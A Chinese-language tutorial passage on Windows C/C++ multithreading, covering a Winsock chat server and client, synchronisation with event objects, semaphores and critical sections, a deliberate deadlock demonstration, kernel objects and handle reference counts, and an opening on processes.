每来一个连接，服务端起一个线程维护 将收到的消息转发给所有的客户端 某个连接断开，需要处理断开的连接 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 #include <stdio.h> #include <windows.h> #include <time.h> #include <process.h> #pragma comment(lib,"ws2_32.lib" ) #pragma warning (disable:4996) #define MAX_THREAD 256 #define MAX_BUFF_SIZE 1024 SOCKET cntSockets[MAX_THREAD]; int cntCOUNT = 0 ;HANDLE hMutex; unsigned WINAPI ThreadFUNC (void *) void SendMsg (char *, int ) void ErrorHandling (const char * message, int ERRNO) int getCurrentTimeStr (char * strtime) int main () printf ("Server begin:\n" ); WORD wVersionRequested; WSADATA wsaData; wVersionRequested = MAKEWORD (1 , 1 ); if (WSAStartup (wVersionRequested, &wsaData) != 0 ) { ErrorHandling ("WSAStartup() error!" , WSAGetLastError ()); } if (LOBYTE (wsaData.wVersion) != 1 || HIBYTE (wsaData.wVersion) != 1 ) { WSACleanup (); return -1 ; } SOCKET hServerSock = socket (AF_INET, SOCK_STREAM, 0 ); if (hServerSock == INVALID_SOCKET) { ErrorHandling ("Creat socket ERROR" , WSAGetLastError ()); } SOCKADDR_IN addrServ; int szAddrServ = sizeof (addrServ); memset (&addrServ, 0 , szAddrServ); addrServ.sin_family = PF_INET; addrServ.sin_addr.S_un.S_addr = htonl (INADDR_ANY); addrServ.sin_port = htons (7000 ); if (SOCKET_ERROR == bind (hServerSock, (sockaddr*)&addrServ, szAddrServ)) { ErrorHandling ("bind ERROR" , WSAGetLastError ()); } if (SOCKET_ERROR == listen (hServerSock, 5 )) { ErrorHandling ("listen ERROR" , WSAGetLastError ()); } printf ("Begin Listen:\n" ); HANDLE hThread; hMutex = CreateMutexW (NULL , FALSE, NULL ); SOCKADDR_IN addrCnt; int szAddrCnt = sizeof (SOCKADDR_IN); while (1 ) { SOCKET clientSock = accept (hServerSock, (SOCKADDR*)&addrCnt, &szAddrCnt); if (SOCKET_ERROR == clientSock) { ErrorHandling ("accept ERROR" , WSAGetLastError ()); } WaitForSingleObject (hMutex, INFINITE); cntSockets[cntCOUNT++] = clientSock; ReleaseMutex (hMutex); hThread = (HANDLE)_beginthreadex(NULL , 0 , ThreadFUNC, (void *)&clientSock, 0 , NULL ); printf ("Connect client IP: %s \n" , inet_ntoa (addrCnt.sin_addr)); printf ("Connect client num: %d \n" , cntCOUNT); } closesocket (hServerSock); WSACleanup (); system ("pause" ); return 0 ; } unsigned WINAPI ThreadFUNC (void * arg) SOCKET clientSock = *(SOCKET*)(arg); char szMsg[MAX_BUFF_SIZE] = {}; int iLen = 0 , i; while (true ) { iLen = recv (clientSock, szMsg, sizeof (szMsg), 0 ); if (iLen != -1 ) { SendMsg (szMsg, iLen); } else { break ; } } WaitForSingleObject (hMutex, INFINITE); printf ("Current Connect NUM: %d" , cntCOUNT); for (i = 0 ; i < cntCOUNT; i++) { if (cntSockets[i] == clientSock) { while (i++ < cntCOUNT) { cntSockets[i-1 ] = cntSockets[i]; } break ; } } cntCOUNT--; printf ("Current Connect NUM: %d" , cntCOUNT); ReleaseMutex (hMutex); closesocket (clientSock); return 0 ; } void SendMsg (char * message, int len) WaitForSingleObject (hMutex, INFINITE); for (int i = 0 ; i < cntCOUNT; i++) { send (cntSockets[i], message, len, 0 ); } ReleaseMutex (hMutex); } int getCurrentTimeStr (char * strtime) time_t now = time (NULL ); tm* ltm = localtime (&now); sprintf (strtime, "%2d:%2d:%2d" , ltm->tm_hour, ltm->tm_min, ltm->tm_sec); return 0 ; } void ErrorHandling (const char * message, int ERRNO) fputs (message, stderr); fputc ('\n' , stderr); char ch[64 ]; getCurrentTimeStr (ch); printf ("Error num = %d, Error time %s\n" , ERRNO, ch); system ("pause" ); exit (-1 ); }
📋客户端
请求上线 发消息：等待用户从控制台输入，然后发送到服务端 客户端等待服务器消息，收完数据后输出控制台 等待用户关闭客户端【Q表示退出】 其中，收发消息需要两个线程
接收服务端的消息：一个线程接收消息 发送消息给服务端：一个线程发送消息 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 #include <stdio.h> #include <windows.h> #include <time.h> #include <process.h> #include <iostream> #pragma comment(lib,"ws2_32.lib" ) #pragma warning (disable:4996) #define MAX_NameSize 256 #define MAX_BUFF_SIZE 1024 char szName[MAX_NameSize] = "[DEFAULT]" ;char szMsg[MAX_BUFF_SIZE];unsigned WINAPI SendThreadFUNC (void *) unsigned WINAPI RecvThreadFUNC (void *) void ErrorHandling (const char * message, int ERRNO) int getCurrentTimeStr (char * strtime) int main (int argc, char * argv[]) printf ("dddddddddddddddddddddddddd:\n" ); if (argc < 2 ) { puts ("Must input two args[Start in CMD]\n" ); system ("pause" ); exit (-1 ); } else { std::cout << "Welcome " << argv[1 ]<<"!" << std::endl; sprintf (szName, "[%s]" , argv[1 ]); } printf ("Client begin:\n" ); WORD wVersionRequested; WSADATA wsaData; wVersionRequested = MAKEWORD (1 , 1 ); if (WSAStartup (wVersionRequested, &wsaData) != 0 ) { ErrorHandling ("WSAStartup() error!" , WSAGetLastError ()); } if (LOBYTE (wsaData.wVersion) != 1 || HIBYTE (wsaData.wVersion) != 1 ) { WSACleanup (); return -1 ; } SOCKET hSock = socket (AF_INET, SOCK_STREAM, 0 ); if (hSock == INVALID_SOCKET) { ErrorHandling ("Create socket ERROR" , WSAGetLastError ()); } SOCKADDR_IN addrCnt; int szAddrClient = sizeof (addrCnt); memset (&addrCnt, 0 , szAddrClient); addrCnt.sin_family = PF_INET; addrCnt.sin_addr.S_un.S_addr = inet_addr ("127.0.0.1" ); addrCnt.sin_port = htons (7000 ); if (SOCKET_ERROR == connect (hSock, (SOCKADDR*)&addrCnt, szAddrClient)) { ErrorHandling ("Connect ERROE" , WSAGetLastError ()); } printf ("Begin Send and Recv:\n" ); HANDLE SendThread, RecvThread; SendThread = (HANDLE)_beginthreadex(NULL , 0 , SendThreadFUNC, (void *)&hSock, 0 , NULL ); RecvThread = (HANDLE)_beginthreadex(NULL , 0 , RecvThreadFUNC, (void *)&hSock, 0 , NULL ); WaitForSingleObject (SendThread, INFINITE); WaitForSingleObject (RecvThread, INFINITE); closesocket (hSock); WSACleanup (); system ("pause" ); return 0 ; } unsigned WINAPI SendThreadFUNC (void * arg) SOCKET hSock = *(SOCKET*)(arg); char szNameMsg[MAX_NameSize + MAX_BUFF_SIZE + 1 ] = {}; int iLen = 0 ; while (true ) { memset (szMsg, 0 , MAX_BUFF_SIZE); memset (szNameMsg, 0 , MAX_NameSize + MAX_BUFF_SIZE + 1 ); fgets (szMsg, MAX_BUFF_SIZE, stdin); if (!strcmp (szMsg, "q\n" ) || !strcmp (szMsg, "Q\n" )) { fputs ("Client Down\n" , stdout); closesocket (hSock); break ; } sprintf (szNameMsg, "%s:%s" , szName, szMsg); iLen=send (hSock, szNameMsg, (int )strlen (szNameMsg), 0 ); printf ("send %d!\n" , iLen); } return 0 ; } unsigned WINAPI RecvThreadFUNC (void * arg) SOCKET hSock = *(SOCKET*)(arg); char szNameMsg[MAX_NameSize + MAX_BUFF_SIZE + 1 ] = {}; int iLen = 0 ; while (true ) { memset (szNameMsg, 0 , MAX_NameSize + MAX_BUFF_SIZE + 1 ); iLen = recv (hSock, szNameMsg, MAX_NameSize + MAX_BUFF_SIZE + 1 , 0 ); if (iLen == -1 ) { fputs ("recv stop!\n" , stdout); return 2 ; } fputs (szNameMsg, stdout); } return 0 ; } int getCurrentTimeStr (char * strtime) time_t now = time (NULL ); tm* ltm = localtime (&now); sprintf (strtime, "%2d:%2d:%2d" , ltm->tm_hour, ltm->tm_min, ltm->tm_sec); return 0 ; } void ErrorHandling (const char * message, int ERRNO) fputs (message, stderr); fputc ('\n' , stderr); char ch[64 ]; getCurrentTimeStr (ch); printf ("Error num = %d, Error time %s\n" , ERRNO, ch); system ("pause" ); exit (-1 ); }
注意 ：main函数的定义：int main(int argc, char* argv[])
七 线程同步 7.1 线程同步之事件对象 事件对象也属于内核对象，它包含以下三个成员：
使用计数； 用于指明该事件是一个自动重置的事件还是一个人工重置的事件的布尔值； 用于指明该事件处于已通知状态还是未通知状态的布尔值。 事件对象有两种类型：人工重置的事件对象和自动重置的事件对象。这两种事件对象的区别在于：
当人工重置的事件对象得到通知时，等待该事件对象的所有线程 均变为可调度线程； 而当一个自动重置的事件对象得到通知时，等待该事件对象的线程中只有一个线程 变为可调度线程。 🔺1、创建事件对象 ：调用CreateEvent函数创建或打开一个命名的或匿名的事件对象。
🔺2、设置事件对象状态 ：调用SetEvent函数把指定的事件对象设置为有信号状态。
🔺3、重置事件对象状态 ：调用ResetEvent函数把指定的事件对象设置为无信号状态。
🔺4、请求事件对象 ：线程通过调用WaitForSingleObject函数请求事件对象。
CreateEvent函数原型如下：
1 2 3 4 5 6 HANDLE CreateEvent ( LPSECURITY_ATTRIBUTES lpEventAttributes, BOOL bManualReset, BOOL bInitialState, LPCTSTR lpName )
案例一：
输入一个全局字串：ABCD或AAADDD。 要求：通过多线程的方式来判断有几个字母A，必须用线程同步【事件对象】的方式实现。 实现两个线程的顺序同步，表现在控制线程NumberOfother先于线程NumberOfA 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 #include <stdio.h> #include <windows.h> #include <process.h> char str[100 ]{ 0 };HANDLE hEvent; unsigned WINAPI NumberOfA (void * arg) unsigned WINAPI NumberOfother (void * arg) int main () fputs ("Input string:" , stdout); fgets (str, 100 , stdin); hEvent = CreateEvent (NULL , TRUE, FALSE, NULL ); HANDLE hThreadOfA, hThreadOfother; hThreadOfA = (HANDLE)_beginthreadex(NULL , 0 , NumberOfA, NULL , 0 , NULL ); hThreadOfother = (HANDLE)_beginthreadex(NULL , 0 , NumberOfother, NULL , 0 , NULL ); WaitForSingleObject (hThreadOfA, INFINITE); WaitForSingleObject (hThreadOfother, INFINITE); ResetEvent (hEvent); CloseHandle (hEvent); system ("pause" ); return 0 ; } unsigned WINAPI NumberOfA (void * arg) int i, cnt = 0 ; WaitForSingleObject (hEvent,INFINITE); for (i = 0 ; str[i] != 0 ; i++) { if (str[i] == 'A' ) { cnt++; } } printf ("Number of A = %d\n" , cnt); return 0 ; } unsigned WINAPI NumberOfother (void * arg) int i, cnt = 0 ; for (i = 0 ; str[i] != 0 ; i++) { if (str[i] != 'A' ) { cnt++; } } printf ("Number of Others = %d\n" , --cnt); SetEvent (hEvent); return 0 ; }
案例二：窗口卖票
两个窗口买票，要求两个窗口不重复买票 要求：通过多线程的方式和线程同步【事件对象】的方式实现。 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 #include <stdio.h> #include <windows.h> #include <process.h> int iTickets = 100 ;HANDLE g_hEvent; unsigned long WINAPI SellTicketA (void * arg) unsigned long WINAPI SellTicketB (void * arg) int main () fputs ("Sell tickets:\n" , stdout); HANDLE hThreadA, hThreadB; hThreadA = CreateThread (NULL , 0 , SellTicketA, NULL , 0 , 0 ); hThreadB = CreateThread (NULL , 0 , SellTicketB, NULL , 0 , 0 ); fputs ("DDDDDDDDDDDDDDDDDDDDDDDDDDD\n" , stdout); g_hEvent = CreateEvent (NULL , FALSE, FALSE, NULL ); SetEvent (g_hEvent); WaitForSingleObject (hThreadA, INFINITE); WaitForSingleObject (hThreadB, INFINITE); CloseHandle (g_hEvent); system ("pause" ); return 0 ; } unsigned long WINAPI SellTicketA (void * arg) while (1 ) { WaitForSingleObject (g_hEvent, INFINITE); if (iTickets > 0 ) { Sleep (1 ); iTickets--; printf ("A remain %d\n" , iTickets); } else { fputs ("No remain ticket!\n" , stdout); break ; } SetEvent (g_hEvent); } return 0 ; } unsigned long WINAPI SellTicketB (void * arg) while (1 ) { WaitForSingleObject (g_hEvent, INFINITE); if (iTickets > 0 ) { Sleep (1 ); iTickets--; printf ("B remain %d\n" , iTickets); } else { fputs ("No remain ticket!\n" , stdout); break ; } SetEvent (g_hEvent); } return 0 ; }
7.2 深入理解windows内核对象与句柄 7.2.1 内核对象 Windows中每个内核对象都只是一个内存块 ，它由操作系统内核分配，并只能由操作系统内核进行访问，应用程序不能在内存中定位这些数据结构并直接更改其内容。 这个内存块是一个数据结构，其成员维护着与对象相关的信息。 少数成员【安全描述符lpAttributes和使用计数】是所有内核对象都有的，但大多数成员都是不同类型对象特有的。 CreateFile 类型如下：file文件对象、event事件对象、process进程、thread线程、iocompletationport完成端口【windows服务器】、mailslot邮槽、mutex互斥量和 registry注册表 等。
7.2.2 内核对象的使用计数与生命周期 内核对象的所有者是操作系统内核，而非进程。换言之也就是说，当进程退出，内核对象不一定会销毁。 操作系统内核通过内核对象的使用计数 ，知道当前有多少个进程正在使用一个特定的内核对象。初次创建内核对象，使用计数为1。 当另一个进程获得该内核对象的访问权之后，使用计数加1。 如果内核对象的使用计数递减为0，操作系统内核就会销毁该内核对象。 也就是说内核对象在当前进程中创建，但是当前进程退出时，内核对象有可能被另外一个进程访问。这时，进程退出只会减少当前进程 对引用的所有内核对象的使用计数，而不会减少其他进程 对内核对象的使用计数（即使该内核对象由当前进程创建）。那么内核对象的使用计数未递减为0，操作系统内核不会销毁该内核对象。

【进程1退出，2不退出时】内核对象A、B的引用计数减为0，被操作系统内核销毁。而进程1只减少自身对C、D的引用计数，不会影响进程2对C、D的引用计数，故此时C、D引用计数不为0，不会被销毁。 【进程2退出，1不退出时】进程2减少自身对C、D的引用计数，不会影响进程1，故A、B、C、D都不会被销毁 【进程1、2均退出时】只要ABCD不被别的进程使用，内核对象A、B、C、D的引用计数均递减为0，被内核销毁 7.2.3 操作内核对象 Windows提供了一组函数进行操作内核对象。
成功调用一个创建内核对象的函数后，会返回一个句柄，它表示了所创建的内核对象，可由进程中的任何线程使用。 在32位进程中，句柄是一个32位值，在64位进程中句柄是一个64位值。我们可以使用唯一标识内核对象的句柄，调用内核操作函数对内核对象进行操作。 7.2.4 内核对象与其他类型的对象 Windows进程中除了内核对象还有其他类型的对象，比如窗口，菜单，字体等，这些属于用户对象和GDI对象。
要区分内核对象与非内核对象，最简单的方式就是查看创建这个对象的函数，几乎所有创建内核对象的函数都有一个允许我们指定安全属性 的参数。
7.2.5 注意与补充 一个对象是不是内核对象，通常可以看创建此对象API的参数中是否需要：PSECURITY_ATTRIBUTES 类型的参数。
内核对象只是一个内存块，这块内存位于操作系统内核的地址空间，内存块中存放一个数据结构【此数据结构的成员有如：安全描述符、使用计数等】
每个进程中有一个句柄表【handle table】，这个句柄表仅供内核对象使用，如下图：
调用 hThread = CreateThread(... , &threadId); ：当调用了CreateThread 、CreateFile 等创建内核对象的函数后，就是相当于操作系统多了一个内存块，这个内存块就是内核对象。
此时，内核对象被创建，其数据结构中的引用计数初始为1【这样理解：只要内核对象被创建，其引用计数被初始化为1】。这里实则会发生两件事：创建了一个内核对象和创建线程的函数打开【访问】了此对象，所以内核对象的引用计数加1，这时引用计数就为2了。 调用API CreateThread的时候，不仅仅是创建了一个内核对象，引用计数+1，还打开了内核对象+1，所以引用计数变为2 当调用CloseHandle(hThread); 时发生这样的事情：系统通过hThread计算出此句柄在句柄表中的索引，然后把那一项处理后标注为空闲可用的项，内核对象的引用计数减1，即此时此内核对象的引用计数为1，之后这个线程句柄与创建时产生的内核对象已经没有任何关系了【即不能通过hThread句柄去访问内核对象了】 只有当内核对象的引用计数为0时，内核对象才会被销毁，而此时它的引用计数为1，那它什么时候会被销毁？【当此线程结束的时候，它的引用计数再减1即为0，内核对象被销毁】 此时又有一个新问题产生：我们已经关闭了线程句柄，也就是这个线程句柄已经和内核对象没有瓜葛了，那么那个内核对象是怎么又可以和此线程联系起来了呢？ 其实是创建线程时产生的那个线程ID，代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 #include <stdio.h> #include <windows.h> #include <WinBase.h> DWORD WINAPI ThreadProc (LPVOID lpParameter) printf ("I am comming..." ); while (1 ) {} return 0 ; } int main () HANDLE hThread; HANDLE headle2; DWORD threadId; hThread = CreateThread (NULL , 0 , ThreadProc, NULL , 0 , &threadId); CloseHandle (hThread); headle2 = OpenThread (THREAD_QUERY_INFORMATION, FALSE, threadId); headle2 = OpenThread (THREAD_QUERY_INFORMATION, FALSE, threadId); headle2 = OpenThread (THREAD_QUERY_INFORMATION, FALSE, threadId); return 0 ; }
7.3 线程同步之信号量 较难，相比于其他线程同步方式用的较少
内核对象的状态：
触发状态【有信号状态】：表示有可用资源；
未触发状态【无信号状态】：表示没有可用资源。
工作原理：
以一个停车场是运作为例。假设停车场只有三个车位，一开始三个车位都是空的。
这时如果同时来了五辆车，看门人允许其中三辆不受阻碍的进入，然后放下车拦，剩下的车则必须在入口等待，此后来的车也都不得不在入口处等待。
这时，有一辆车离开停车场，看门人得知后，打开车拦，放入一辆；如果又离开两辆，则又可以放入两辆，如此往复。
这个停车系统中，每辆车就好比一个线程，看门人就好比一个信号量，看门人限制了可以活动的线程。假如里面依然是三个车位，但是看门人改变了规则，要求每次只能停两辆车，那么一开始进入两辆车，后面得等到有车离开才能有车进入，但是得保证最多停两辆车。
对于Semaphore而言，就如同一个看门人，限制了可活动的线程数。
信号量的组成
信号量的规则如下：
如果当前资源计数大于0，那么信号量处于触发状态(有信号状态)，表示有可用资源。
如果当前资源计数等于0，那么信号量属于未触发状态（无信号状态），表示没有可用资源。
系统绝对不会让当前资源计数变为负数
当前资源计数绝对不会大于最大资源计数

信号量与互斥量的区别：
信号量允许多个线程在同一时刻访问同一资源，但是需要限制在同一时刻访问此资源的最大线程数目。 信号量对象对线程的同步方式与前面几种方法不同，信号允许多个线程同时使用共享资源 。 信号量API
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 HANDLE WINAPI CreateSemaphoreW ( _In_opt_ LPSECURITY_ATTRIBUTES lpSemaphoreAttributes, _In_ LONG lInitialCount, _In_ LONG lMaximumCount, _In_opt_ LPCWSTR lpName ) WINAPI ReleaseSemaphore ( _In_ HANDLE hSemaphore, _In_ LONG lReleaseCount, _Out_opt_ LPLONG lpPreviousCount ) CloseHandle ( _In_ _Post_ptr_invalid_ HANDLE hObject );
示例： 实现先后循环输入数字，并求和
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 #include <stdio.h> #include <windows.h> #include <process.h> #pragma warning (disable:4996) unsigned WINAPI Read (void * arg) unsigned WINAPI Accu (void * arg) static HANDLE semOne;static HANDLE semTwo;static int num;int main (int argc, char * argv[]) HANDLE hThread1, hThread2; semOne = CreateSemaphore (NULL , 0 , 1 , NULL ); semTwo = CreateSemaphore (NULL , 1 , 1 , NULL ); hThread1 = (HANDLE)_beginthreadex(NULL , 0 , Read, NULL , 0 , NULL ); hThread2 = (HANDLE)_beginthreadex(NULL , 0 , Accu, NULL , 0 , NULL ); WaitForSingleObject (hThread1, INFINITE); WaitForSingleObject (hThread2, INFINITE); CloseHandle (semOne); CloseHandle (semTwo); system ("pause" ); return 0 ; } unsigned WINAPI Read (void * arg) int i; for (i = 0 ; i < 5 ; i++) { fputs ("Input num: " , stdout); printf ("begin read\n" ); WaitForSingleObject (semTwo, INFINITE); printf ("beginning read\n" ); scanf ("%d" , &num); ReleaseSemaphore (semOne, 1 , NULL ); } return 0 ; } unsigned WINAPI Accu (void * arg) int sum = 0 , i; for (i = 0 ; i < 5 ; i++) { printf ("begin Accu\n" ); WaitForSingleObject (semOne, INFINITE); printf ("beginning Accu\n" ); sum += num; printf ("sum = %d \n" , sum); ReleaseSemaphore (semTwo, 1 , NULL ); } printf ("Result: %d \n" , sum); return 0 ; }
7.4 线程同步之关键代码段 关键代码段，也称为临界区，工作在用户方式 下【用户态】。
它是指一个小代码段，在代码能够执行前，它必须独占对某些资源的访问权。 通常把多线程中访问同一种资源的那部分代码当做关键代码段。 使用步骤：
初始化关键代码段：调用InitializeCriticalSection函数初始化一个关键代码段。
1 2 3 4 5 6 InitializeCriticalSection ( _Out_ LPCRITICAL_SECTION lpCriticalSection );
进入关键代码段：调用EnterCriticalSection函数，以获得指定的临界区对象的所有权。
1 2 3 4 5 VOID WINAPI EnterCriticalSection ( _Inout_ LPCRITICAL_SECTION lpCriticalSection )
退出关键代码段： 线程使用完临界区所保护的资源之后，需要调用LeaveCriticalSection函数，释放指定的临界区对象的所有权。之后，其他想要获得该临界区对象所有权的线程就可以获得该所有权，从而进入关键代码段，访问保护的资源。
1 2 3 VOID WINAPI LeaveCriticalSection ( _Inout_ LPCRITICAL_SECTION lpCriticalSection )
删除临界区：当临界区不再需要时，可以调用DeleteCriticalSection函数释放该对象，该函数将释放一个没有被任何线程所拥有的临界区对象的所有资源。
1 2 3 WINBASEAPI VOID WINAPI DeleteCriticalSection ( _Inout_ LPCRITICAL_SECTION lpCriticalSection )
示例：卖票系统
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 #include <stdio.h> #include <windows.h> #include <process.h> int iTickets = 1000 ;CRITICAL_SECTION g_cs; DWORD WINAPI SellTicketA (void * lpParam) while (1 ) { EnterCriticalSection (&g_cs); if (iTickets > 0 ) { iTickets--; printf ("A remain %d\n" , iTickets); LeaveCriticalSection (&g_cs); } else { LeaveCriticalSection (&g_cs); break ; } } return 0 ; } DWORD WINAPI SellTicketB (void * lpParam) while (1 ) { EnterCriticalSection (&g_cs); if (iTickets > 0 ) { iTickets--; printf ("B remain %d\n" , iTickets); LeaveCriticalSection (&g_cs); } else { LeaveCriticalSection (&g_cs); break ; } } return 0 ; } int main () HANDLE hThreadA, hThreadB; hThreadA = CreateThread (NULL , 0 , SellTicketA, NULL , 0 , NULL ); hThreadB = CreateThread (NULL , 0 , SellTicketB, NULL , 0 , NULL ); CloseHandle (hThreadA); CloseHandle (hThreadB); InitializeCriticalSection (&g_cs); Sleep (20000 ); DeleteCriticalSection (&g_cs); system ("pause" ); return 0 ; }
7.5 线程死锁 死锁是指多个线程因竞争资源而造成的一种僵局【互相等待】。若无外力作用，这些进程都将无法向前推进。
示例： 修改上节的买票系统【SellA先进入临界区A然后等待1s，此时线程切换，SellB率先抢占临界区B。至此，二者相互等待】
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 #include <stdio.h> #include <windows.h> #include <process.h> int iTickets = 5000 ;CRITICAL_SECTION g_csA; CRITICAL_SECTION g_csB; DWORD WINAPI SellTicketA (void * lpParam) while (1 ) { EnterCriticalSection (&g_csA); printf ("A\n" ); Sleep (1 ); EnterCriticalSection (&g_csB); if (iTickets > 0 ) { Sleep (1 ); iTickets--; printf ("A remain %d\n" , iTickets); LeaveCriticalSection (&g_csB); LeaveCriticalSection (&g_csA); } else { LeaveCriticalSection (&g_csB); LeaveCriticalSection (&g_csA); break ; } } return 0 ; } DWORD WINAPI SellTicketB (void * lpParam) while (1 ) { EnterCriticalSection (&g_csB); printf ("B\n" ); Sleep (1 ); EnterCriticalSection (&g_csA); if (iTickets > 0 ) { Sleep (1 ); iTickets--; printf ("B remain %d\n" , iTickets); LeaveCriticalSection (&g_csA); LeaveCriticalSection (&g_csB); } else { LeaveCriticalSection (&g_csA); LeaveCriticalSection (&g_csB); break ; } } return 0 ; } int main () HANDLE hThreadA, hThreadB; hThreadA = CreateThread (NULL , 0 , SellTicketA, NULL , 0 , NULL ); hThreadB = CreateThread (NULL , 0 , SellTicketB, NULL , 0 , NULL ); CloseHandle (hThreadA); CloseHandle (hThreadB); InitializeCriticalSection (&g_csA); InitializeCriticalSection (&g_csB); Sleep (5000 ); DeleteCriticalSection (&g_csA); DeleteCriticalSection (&g_csB); system ("pause" ); return 0 ; }
解决：避免死锁
7.6 各种线程同步的比较总结 windows线程同步的方式主要有四种：互斥对象Mutex、信号量Semaphore、事件对象event和关键代码段criticalSection。
对于上面介绍的四种线程同步的方式，它们之间的区别如下所述：
● 互斥对象和事件以及信号量都属于内核对象，利用内核对象进行线程同步。因此，速度较慢，但利用互斥对象和事件对象这样的内核对象，可以在多个进程中的各个线程间 进行同步。
● 关键代码段工作在用户方式下，同步速度较快；但在使用关键代码段时，很容易进入死锁状态，因为在等待进入关键代码段时无法设定超时值。
用户级别的同步：即关键代码段，只能本进程中进行同步。
内核级别的同步：互斥量/事件/信号量，可以跨进程同步。
通常，在编写多线程程序并需要实现线程同步时，首选关键代码段，由于它的使用比较简单，如果是在MFC程序中使用的话：
可以在类的构造函数Init中调用InitializeCriticalSection函数； 在该类的析构函数中调用DeleteCriticalSection函数 在所需保护的代码前面调用EnterCriticalSection函数 在访问完所需保护的资源后，调用LeaveCriticalSection函数。 可见，关键代码段在使用上是非常方便的，但有几点需要注意：
在程序中调用了EnterCriticalSection后，要相应的调用LeaveCriticalSection函数，否则其他等待该临界区对象所有权的线程将无法执行。
如果访问关键代码段时，使用了多个临界区对象，就要注意防止线程死锁的发生。
另外，如果需要在多个进程间的各个线程间实现同步的话，可以使用互斥对象和事件对象或者信号量。
比较 互斥量 Mutex 事件对象 Event 信号量对象 Semaphore 关键代码段 Criticalsection 是否为内核对象 是 是 是 否 速度 较慢 较慢 慢 快 多个进程中的线程同步 支持 支持 支持 不支持 发生死锁 否 否 否 是 组成 一个线程ID；用来标识哪个线程拥有该互斥量；一个计数器：用来指明该线程用于互斥对象的次数 一个使用计数；一个布尔值：用来标识该事件是自动重置还是人工重置；一个布尔值：标识该事件处于有信号状态还是无信号状态 一个使用计数； 最大资源数； 标识当前可用的资源数 一个小代码段； 在代码能够执行前，必须占用对某些资源的访问权 相关函数 CreateMutex WaitForSingleObjects //被保护的内容 ReleaseMutex CreateEvent ResetEvent WaitforSingleobject //保护内容 SetEvent CreateSemaphore WaitForsingleobject //被保护的内容 ReleaseSemaPhore InitialCriticalSection EnterCritionSection //被保护的内容 LeaveCritialSection DeleteCritialSection 注意事项 谁拥有互斥对象，谁释放； 如果多次在同一个线程中请求同一个互斥对象，需要多次调用releaseMutex 为了实现线程间的同步，不应该使用人工重置，应该把第二个参数设置false；设置为自动重置 它允许多个线程在同一时间访问同一个资源；但是需要限制访问此资源的最大线程数目； 防止死锁：使用多个关键代码段变量的时候 类比 一把钥匙 钥匙（自动/人工） 停车场和保安 电话亭
🔺什么是线程安全？
假如你的代码在多线程执行和单线程执行永远是完全一样的结果，那么你的代码是线程安全的。
陈硕《muduo》
八 进程 8.1 基本概念：进程和子进程 📋程序、进程：正在运行的程序
程序：是计算机指令的集合，它以文件的形式存储在磁盘上； 进程：通常被定义为一个正在运行的程序的实例，是一个程序在其自身的地址空间中的一次执行活动。一个程序可以对应多个进程； 进程是资源申请、调度和独立运行的单位。因此，它使用系统中的运行资源； 而程序不能申请系统资源，不能被系统调度也不能作为独立运行的单位，因此它不占系统运行资源。 一般Windows程序员不适用任务管理器，而是使用 procexp64.exe 【Process Explorer】替代，可以显示更多任务信息。
📋进程组成：
